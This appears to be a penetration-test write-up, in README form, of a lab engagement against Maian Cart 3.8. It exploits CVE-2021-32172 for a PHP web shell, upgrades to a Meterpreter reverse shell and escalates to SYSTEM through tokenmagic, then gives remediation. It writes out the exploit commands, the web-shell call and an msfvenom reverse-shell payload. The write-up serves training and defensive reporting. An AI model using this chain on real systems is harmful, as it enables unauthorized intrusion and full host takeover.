








# Maian Cart 3.8 — Unauthenticated RCE to SYSTEM

**Target:** `INVETECKWINLAB` — `192.168.8.50:8000` (Windows 8.1 Pro, Build 9600, x64)
**Stack:** XAMPP — Apache 2.4.52, PHP 8.1.1 (Win64), Maian Cart v3.8
**Result:** Unauthenticated elFinder RCE (CVE-2021-32172) → Meterpreter → token manipulation → `NT AUTHORITY\SYSTEM`
**Tester:** Kelvin Bigson — Junior Penetration Tester, Inveteck Global CyberLab
**Date:** July 24, 2026
**Time to full compromise:** under 5 minutes, zero credentials, zero user interaction

> Full formal report: [`MaianCart_Pentest_Report_INVETECKWINLAB.pdf`](./MaianCart_Pentest_Report_INVETECKWINLAB.pdf)

---

## TL;DR

Maian Cart v3.8 ships an elFinder file-manager API endpoint that never checks whether the caller is logged in. That's enough to write a PHP web shell straight into a web-accessible folder — no auth, no clicks, nothing. From there it's a short hop: drop a Meterpreter payload through the shell, catch the callback, and use a known Windows 8.1 token-manipulation exploit to jump from a limited web-service account to `SYSTEM`.

```
Unauthenticated elFinder RCE (CVE-2021-32172) ──► PHP web shell ──► Meterpreter session
      ──► local_exploit_suggester ──► tokenmagic ──► NT AUTHORITY\SYSTEM
```

## Findings Summary

| # | Finding | CVE | Severity | CVSS |
|---|---|---|---|---|
| F-01 | Unauthenticated RCE via elFinder (Maian Cart 3.8) | CVE-2021-32172 | **Critical** | 9.8 |
| F-02 | UAC Token Privilege Escalation to SYSTEM | — | High | 7.8 |
| F-03 | Directory Listing Enabled (multiple directories) | — | Medium | 5.3 |
| F-04 | Sensitive & Executable Files Exposed in Web Root | — | Medium | 5.3 |

**1 Critical · 1 High · 2 Medium**

---

## Attack Chain

### 1. Recon & fingerprinting

`feroxbuster` against `http://192.168.8.50:8000` mapped out the app structure — the `/admin/` redirect, an open `/product-downloads/` listing, and paths tied to elFinder.



The storefront's own "News" ticker confirmed the exact version: **Maian Cart v3.8**.



### 2. CVE match

`searchsploit` matched the version straight to **CVE-2021-32172 / EDB-50394** — an unauthenticated RCE in Maian Cart 3.8's elFinder integration.



The endpoint at fault:

```
http://192.168.8.50:8000/admin/index.php?p=ajax-ops&op=elfinder
```

No session check is enforced on it. An attacker can call elFinder's `mkfile` command to create an arbitrary PHP file inside the web-accessible `/product-downloads/` directory, then `put` a web shell payload into it.

### 3. Adapting the PoC

The stock PoC (`50394.py`) failed on first run — an `errExists` / `KeyError`, because a `shell.php` was *already sitting in that directory from a prior compromise* of this same box. The filename was swapped throughout the script to produce a clean, independently verifiable shell:

```bash
sed -i 's/shell\.php/kelvinshell.php/g' 50394.py
python3 50394.py http://192.168.8.50:8000 ""
```

### 4. RCE confirmed

The exploit created `kelvinshell.php` via the unauthenticated elFinder endpoint and wrote a `system($_GET['cmd'])` payload into it. Hitting it directly over HTTP confirmed arbitrary OS command execution as `inveteckwinlab\inveteck`:

```
GET /product-downloads/kelvinshell.php?cmd=dir
```



### 5. Shell upgrade

A 64-bit Meterpreter payload was generated and delivered through the web shell primitive via a Python HTTP server:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=192.168.8.143 LPORT=4444 -f exe -o meterpreter.exe
```



Executing it through the web shell caught a full Meterpreter session as `InveteckWinlab\inveteck`:



### 6. Privilege escalation to SYSTEM

The `inveteck` account was technically a member of `BUILTIN\Administrators`, but running under a UAC-filtered Medium Integrity token — meaning admin rights were disabled in the current process. `post/multi/recon/local_exploit_suggester` checked 69 modules against the session and flagged 22 viable candidates, including `exploit/windows/local/tokenmagic`.



Running `tokenmagic` against the session escalated straight to SYSTEM, no UAC prompt triggered:

```
C:\Windows\system32> whoami
nt authority\system
```



Full, unrestricted control of the host.

---

## Other Findings

**F-03 — Directory listing enabled.** `Options +Indexes` was left on across most of the app (`/control/`, `/product-downloads/`, `/checkout/`, `/content/`, and more), letting anyone browse the full server-side source tree.

**F-04 — Web shells and stray binaries already in `/product-downloads/`.** Files like `shell.php`, `shell1.php`, `phacks.php`, plus unaccounted-for executables (`main1.exe`, a suspicious `update_antivirus.exe`) and a `Blob0_0.key`, were sitting there before this engagement started — clear signs the box had been compromised by other actors previously. Two files were added during this test (`kelvinshell.php`, `meterpreter.exe`) and flagged for removal at close-out.

---

## Attack Chain Summary

| Stage | Action | Result |
|---|---|---|
| 1 — Recon | `feroxbuster` enumeration | App fingerprinted, elFinder paths found |
| 2 — CVE Match | `searchsploit` lookup | CVE-2021-32172 / EDB-50394 confirmed |
| 3 — PoC Adapt | `sed` filename swap | Avoided conflict with pre-existing artifact |
| 4 — Initial Access | `50394.py` executed | `kelvinshell.php` written via unauthenticated elFinder |
| 5 — RCE Confirm | `GET kelvinshell.php?cmd=dir` | OS command execution confirmed |
| 6 — Shell Upgrade | `msfvenom` payload via web shell | Meterpreter session opened |
| 7 — SYSTEM | `tokenmagic` exploit | Full SYSTEM-level compromise |

## Remediation

| Priority | Finding | Action |
|---|---|---|
| Critical | Unauthenticated elFinder RCE | Upgrade Maian Cart immediately; enforce `/admin/` authentication at the web server level, independent of the app |
| Critical | Active web shells in `/product-downloads/` | Remove immediately; treat the host as already compromised — consider a full reimage |
| High | Token escalation to SYSTEM | Run Apache/XAMPP under a dedicated least-privilege account with no `Administrators` membership; apply all outstanding patches |
| High | Windows 8.1 EOL | Upgrade — 8.1 has been out of support since January 2023 |
| Medium | Directory listing enabled | `Options -Indexes` globally; keep `/product-downloads/` out of direct HTTP reach |
| Medium | Executables/key files in web root | Remove `.exe`/`.key` files; disable PHP execution in download directories |

---

## Methodology

Black-box methodology across five phases: reconnaissance & enumeration, vulnerability identification (CVE matching), exploitation, post-exploitation, and reporting.

**Tools used:** `feroxbuster`, `searchsploit`, `curl`, a modified `50394.py` (CVE-2021-32172 PoC), `msfvenom`, Metasploit Framework, Python3 HTTP server.

## Disclaimer

This assessment reflects a point-in-time snapshot of a lab environment (INVETECKWINLAB). Conducted for training and portfolio purposes as part of Inveteck Global's CyberLab program.
